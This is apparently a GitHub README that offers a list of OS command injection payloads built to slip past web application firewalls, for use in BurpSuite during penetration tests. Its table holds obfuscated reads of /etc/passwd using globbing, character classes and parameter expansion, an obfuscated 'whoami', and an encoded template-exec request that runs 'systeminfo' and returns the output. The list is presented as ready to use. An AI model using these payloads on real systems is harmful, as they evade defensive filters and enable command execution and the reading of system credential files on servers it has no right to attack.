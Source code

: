 # Bypass-WAF-OS-command-injection
In todays Web Penetration Testing you must have good injection payloads to fasten your engagements.<br>
You can use this on BurpSuite. Method below can be use on Web Penetration Testing.
<br>
<table border="1">
    <tr>
        <th>OS Command Injection Bypassing WAF </th>
    </tr>
    <tr>
        <td>1. cat /e*c/p*s*d</td>
    </tr>
    <tr>
        <td>2. cat /e[tv]c/p[aeiou]*d</td>
    </tr>
    <tr>
        <td>3. cat /e??/p????d</td>
    </tr>
    <tr>
        <td>4. cat /et${FOO:-c}/pa${BAR:-sswd}</td>
    </tr>
    <tr>
        <td>5. wh$()oami or whoam$(echo+i) or who'a'm(echo+i)</td>
    </tr>
    <tr>
        <td>6. " /?n=%0A%&index=%00&&cmd=systeminfo&search=%25xxx%url%25:%password%}{.exec|{.?cmd.}|timeout=15|out=abc.}{.?n.}{.?n.}RESULT:{.?n.}{.^abc.}===={.?n.} " put this without quotes, this will print the info in burpsuite response</td>
    </tr>
</table>

Another actual good reference:<br>
1. https://medium.com/@themiddleblue/waf-evasion-techniques-718026d693d8<br>
2. https://infosecwriteups.com/alibaba-cloud-waf-command-injection-bypass-via-wildcard-payload-in-all-1-462-built-in-rule-set-989b75db6e2f
<br>
If you like this, Please give a Star. Thanks

